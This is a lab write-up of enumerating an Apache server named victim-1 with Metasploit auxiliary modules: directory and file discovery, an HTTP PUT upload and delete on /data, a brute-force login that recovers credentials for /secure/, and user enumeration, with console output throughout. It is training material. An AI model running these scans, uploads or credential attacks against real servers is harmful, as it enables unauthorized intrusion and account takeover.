


# Apache Enumeration

### Target:
`victim-1`

### Objectives:
* auxiliary/scanner/http/apache_userdir_enum
* auxiliary/scanner/http/brute_dirs
* auxiliary/scanner/http/dir_scanner
* auxiliary/scanner/http/dir_listing
* auxiliary/scanner/http/http_put
* auxiliary/scanner/http/files_dir
* auxiliary/scanner/http/http_login
* auxiliary/scanner/http/http_header
* auxiliary/scanner/http/http_version
* auxiliary/scanner/http/robots_txt
  
---
This lab is just meant for getting familiar with the different modules. We boot up **msf** for this and get started.

```bash
┌──(root㉿INE)-[~]
└─# service postgresql start
Starting PostgreSQL 16 database server: main.

┌──(root㉿INE)-[~]
└─# msfconsole
Metasploit tip: Save the current environment with the save command, 
future console restarts will use this environment again
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v6.4.12-dev                          ]
+ -- --=[ 2426 exploits - 1250 auxiliary - 428 post       ]
+ -- --=[ 1468 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/
                                                                                                                                                                                                                                           
msf6 > workspace -a apache_enum
[*] Added workspace: apache_enum                                                                                                                                                                                                           
[*] Workspace: apache_enum                                                                                                                                                                                                                 
msf6 >          
```
We set the **RHOSTS** globally as `victim-1` and get started with the **http-verison** module.
```bash
msf6 auxiliary(scanner/http/http_version) > setg RHOSTS victim-1
RHOSTS => victim-1
msf6 auxiliary(scanner/http/http_version) > run
[+] 192.116.162.3:80 Apache/2.4.18 (Ubuntu)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/http_version) > 
```
Next we use the **http-header** module
```bash
msf6 auxiliary(scanner/http/http_header) > run

[+] 192.116.162.3:80     : CONTENT-TYPE: text/html
[+] 192.116.162.3:80     : LAST-MODIFIED: Wed, 28 Aug 2024 08:56:57 GMT
[+] 192.116.162.3:80     : SERVER: Apache/2.4.18 (Ubuntu)
[+] 192.116.162.3:80     : detected 3 headers
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
We move on to the next module **robots.txt**
```bash
msf6 auxiliary(scanner/http/robots_txt) > run

[*] [192.116.162.3] /robots.txt found
[+] Contents of Robots.txt:
# robots.txt for attackdefense 
User-agent: test                     
# Directories
Allow: /webmail

User-agent: *
# Directories
Disallow: /data
Disallow: /secure

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
We find two disallowed directories **data** and **secure**. We see if we can find any other hidden folders.
```bash
msf6 auxiliary(scanner/http/brute_dirs) > run

[*] Using code '404' as not found.
[+] Found http://victim-1:80/doc/ 200
[+] Found http://victim-1:80/pro/ 200
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/brute_dirs) > 
```
Let's try the same with **dir_scanner** with a modified wordlist.
```bash
msf6 auxiliary(scanner/http/dir_scanner) > set dictionary /usr/share/metasploit-framework/data/wordlists/directory.txt
dictionary => /usr/share/metasploit-framework/data/wordlists/directory.txt
msf6 auxiliary(scanner/http/dir_scanner) > run

[*] Detecting error code
[*] Using code '404' as not found for 192.116.162.3
[+] Found http://victim-1:80//data/ 404 (192.116.162.3)
[+] Found http://victim-1:80//manual/ 404 (192.116.162.3)
[+] Found http://victim-1:80//secure/ 404 (192.116.162.3)
[+] Found http://victim-1:80//webdav/ 404 (192.116.162.3)
[+] Found http://victim-1:80//pro/ 404 (192.116.162.3)
[+] Found http://victim-1:80//icons/ 404 (192.116.162.3)
[+] Found http://victim-1:80//pro/ 404 (192.116.162.3)
[+] Found http://victim-1:80//doc/ 404 (192.116.162.3)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
We see that while it found more directories due to the new wordlist, the status code shows all the directories as 404. This is because the server is using fake 404s (returning 404 even for real directories). This is messing up with the scanner data.  
Let's now try **dir_listing** on the **data** path.
```bash
msf6 auxiliary(scanner/http/dir_listing) > set PATH /data
PATH => /data
msf6 auxiliary(scanner/http/dir_listing) > run

[+] Found Directory Listing http://victim-1:80/data/
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/dir_listing) > 
```
Now we try to find any files hidden in the website.
```bash
msf6 auxiliary(scanner/http/files_dir) > run

[*] Using code '404' as not found for files with extension .null
[*] Using code '404' as not found for files with extension .backup
[+] Found http://victim-1:80/file.backup 200
[*] Using code '404' as not found for files with extension .bak
[*] Using code '404' as not found for files with extension .c
[+] Found http://victim-1:80/code.c 200
[*] Using code '404' as not found for files with extension .cfg
[+] Found http://victim-1:80/code.cfg 200
[*] Using code '404' as not found for files with extension .class
[*] Using code '404' as not found for files with extension .copy
[*] Using code '404' as not found for files with extension .conf
[*] Using code '404' as not found for files with extension .exe
[*] Using code '404' as not found for files with extension .html
[+] Found http://victim-1:80/index.html 200
[*] Using code '404' as not found for files with extension .htm
[*] Using code '404' as not found for files with extension .ini
[*] Using code '404' as not found for files with extension .log
[*] Using code '404' as not found for files with extension .old
[*] Using code '404' as not found for files with extension .orig
[*] Using code '404' as not found for files with extension .php
[+] Found http://victim-1:80/test.php 200
[*] Using code '404' as not found for files with extension .tar
[*] Using code '404' as not found for files with extension .tar.gz
[*] Using code '404' as not found for files with extension .tgz
[*] Using code '404' as not found for files with extension .tmp
[*] Using code '404' as not found for files with extension .temp
[*] Using code '404' as not found for files with extension .txt
[*] Using code '404' as not found for files with extension .zip
[*] Using code '404' as not found for files with extension ~
[*] Using code '404' as not found for files with extension 
[+] Found http://victim-1:80/cgi-bin 301
[+] Found http://victim-1:80/data 301
[+] Found http://victim-1:80/doc 301
[+] Found http://victim-1:80/downloads 301
[+] Found http://victim-1:80/manual 301
[+] Found http://victim-1:80/secure 401
[+] Found http://victim-1:80/uploads 301
[+] Found http://victim-1:80/users 301
[+] Found http://victim-1:80/view 301
[+] Found http://victim-1:80/webdav 401
[+] Found http://victim-1:80/webadmin 301
[+] Found http://victim-1:80/webmail 301
[+] Found http://victim-1:80/~mail 403
[+] Found http://victim-1:80/~bin 403
[+] Found http://victim-1:80/~sys 403
[*] Using code '404' as not found for files with extension 
[+] Found http://victim-1:80/cgi-bin 301
[+] Found http://victim-1:80/data 301
[+] Found http://victim-1:80/doc 301
[+] Found http://victim-1:80/downloads 301
[+] Found http://victim-1:80/manual 301
[+] Found http://victim-1:80/secure 401
[+] Found http://victim-1:80/uploads 301
[+] Found http://victim-1:80/users 301
[+] Found http://victim-1:80/view 301
[+] Found http://victim-1:80/webdav 401
[+] Found http://victim-1:80/webadmin 301
[+] Found http://victim-1:80/webmail 301
[+] Found http://victim-1:80/~bin 403
[+] Found http://victim-1:80/~mail 403
[+] Found http://victim-1:80/~sys 403
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/files_dir) > 
```
There are quite a few files present. Next we try to see if we can upload or delete files on the website via **http_put** module.  
We first try to upload a file.  
```bash
msf6 auxiliary(scanner/http/http_put) > set PATH /data
PATH => /data
msf6 auxiliary(scanner/http/http_put) > set FILENAME test.txt
FILENAME => test.txt
msf6 auxiliary(scanner/http/http_put) > run

[+] File uploaded: http://192.116.162.3:80/data/test.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/http_put) > 
```
Let's check the webpage to find the file.   
  
As we can see the file is visible on the webpage. Next we try to delete the file.  
```bash
msf6 auxiliary(scanner/http/http_put) > set ACTION DELETE 
AcTION => DELETE
msf6 auxiliary(scanner/http/http_put) > run

[+] File deleted: http://192.116.162.3:80/data/test.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/http_put) > 
```
We check the webpage.  
  
The file has been deleted. We next try to find any login credentials.  
```bash
msf6 auxiliary(scanner/http/http_login) > set AUTH_URI /secure/
AUTH_URI => /secure/
msf6 auxiliary(scanner/http/http_login) > set VERBOSE false 
VERBOSE => false
msf6 auxiliary(scanner/http/http_login) > run

[*] Attempting to login to http://victim-1:80/secure/ (192.116.162.3)
[+] 192.116.162.3:80 - Success: 'bob:123321'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/http_login) > 
```
Finally we try to find usernames for the webpage.
```bash
[+] http://192.116.162.3/ - Users found: _apt, backup, bin, daemon, games, gnats, irc, list, lp, mail, man, news, nobody, proxy, sync, sys, systemd-bus-proxy, systemd-network, systemd-resolve, systemd-timesync, uucp
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/apache_userdir_enum) > 
```